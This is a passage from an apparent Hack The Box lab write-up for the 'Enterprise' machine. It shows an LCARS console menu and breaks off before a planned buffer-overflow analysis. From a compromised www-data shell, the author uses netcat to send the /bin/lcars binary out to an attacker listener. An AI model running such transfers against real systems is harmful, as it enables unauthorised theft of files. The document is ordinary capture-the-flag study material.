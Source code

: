 ```bash



LCARS Bridge Secondary Controls -- Main Menu: 

1. Navigation
2. Ships Log
3. Science
4. Security
5. StellaCartography
6. Engineering
7. Exit
Waiting for input: 
```

The access code was correct, and I can now see the console.
Since there are many options on the main menu and have no idea how to use it, let's bring this binary and analyze it with ghidra.

```bash
(kali)
┌──(kali㉿kali)-[~/htb]
└─$ nc -nlvp 9001 > lcars.elf
listening on [any] 9001 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.61] 59518


(target)
www-data@enterprise:/tmp$ nc 10.10.14.4 9001 < /bin/lcars


(kali)
┌──(kali㉿kali)-[~/htb]
└─$ md5sum lcars.elf       
cf72dd251d6fee25e638e9b8be1f8dd3  lcars.elf


(target)
www-data@enterprise:/tmp$ md5sum /bin/lcars
md5sum /bin/lcars
cf72dd251d6fee25e638e9b8be1f8dd3  /bin/lcars
```

> Let's stop here since it has to do with buffer overflow.
> Visit it later...




